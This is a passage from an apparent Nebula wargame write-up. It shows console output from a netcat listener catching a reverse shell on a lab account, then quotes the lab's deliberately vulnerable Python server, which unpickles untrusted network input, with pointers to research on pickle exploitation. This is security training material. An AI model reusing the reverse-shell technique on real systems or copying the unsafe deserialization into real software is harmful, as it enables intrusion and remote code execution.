 Back in the shell where we launched the netcat listener we do the following (the `whoami` is just to confirm I am the right user)

{% highlight console %}
level16@nebula:~$ nc -l 1337
bash: no job control in this shell
flag16@nebula:/home/flag16$ getflag
getflag
You have successfully executed getflag on a target account
flag16@nebula:/home/flag16$ whoami
whoami
flag16
{% endhighlight %}

## Level 17 ##

> There is a python script listening on port 10007 that contains a vulnerability. 

{% highlight python %}
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
    clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
    clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
    server(clnt)
    exit(1)
{% endhighlight %}

Here `pickle` provides us with the possibility of an exploit to run our own code. There's lots to read on the security issues with `pickle`, but to be fair it was never meant to be secure in itself. [BH_US_11_Slaviero_Sour_Pickles_WP.pdf](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf) and [BH_US_11_Slaviero_Sour_Pickles_Slides.pdf](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf) are a good source for more info.
